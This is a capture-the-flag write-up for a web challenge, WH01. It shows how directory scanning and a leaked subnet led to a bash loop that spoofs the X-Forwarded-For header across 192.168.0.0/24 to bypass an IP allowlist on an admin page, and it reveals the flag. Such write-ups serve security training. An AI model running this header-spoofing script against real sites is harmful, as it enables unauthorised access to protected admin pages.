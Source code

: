 # WH01
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![500 score](https://img.shields.io/badge/category-500-blue.svg)

## Briefing
> Access the site at https://cfta-wh01.allyourbases.co and find a way to get the flag from the CMS.

## Solution
First, scan for directories. I used [dirsearch](https://github.com/maurosoria/dirsearch), which uncovered two interesting pages:
* `admin.html` (0 bytes)
* `readme.txt`

### Figuring out what to do
If you visit [readme.txt](https://cfta-wh01.allyourbases.co/readme.txt), you get this message:
```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

We can infer two things:
1. Only *certain* IPs on the local network can access /admin.html
2. The local network subnet is `192.168.0.0/24`

From this, we can determine that in order to access `/admin.html`, we need to **spoof with an IP in the range of `192.168.0.0/24` (ex: 192.168.0.3; the last digit can be any number from 0 to 256)**.

#### To spoof the IP, all we have to do is send an `X-Forwarded-For` header in our request.

### Exploiting
I wrote a trusty bash script to do the job:

```sh
for i in {0..256}
do
  echo "IP: 192.168.0.$i"
  curl -i -H "X-Forwarded-For: 192.168.0.$i" https://cfta-wh01.allyourbases.co/admin.html
done
```
> **Note:** This really isn't the most efficient way, and I just used `grep` after to find the successful IP, which was **192.168.0.62**

Success! We're on the admin page and we've got the flag.
```html
<!DOCTYPE html>

<html lang="en">
<head>
    <title>My Blog</title>
    <link rel="stylesheet" href="mysite.css">
</head>
<body>
<div class="main">
    <div class="center">
        <div class="header">
            <h1>Admin</h1>
        </div>
        <div class="content flag">
            <h2>Flag</h2>
            iPSpooFinGWiThHopHeaDers91918
        </div>
        <div class="footer">
            Powered By: mycustomcms 2021
        </div>
    </div>
</div>
</body>
</html>
```

## Flag
Flag: `iPSpooFinGWiThHopHeaDers91918`
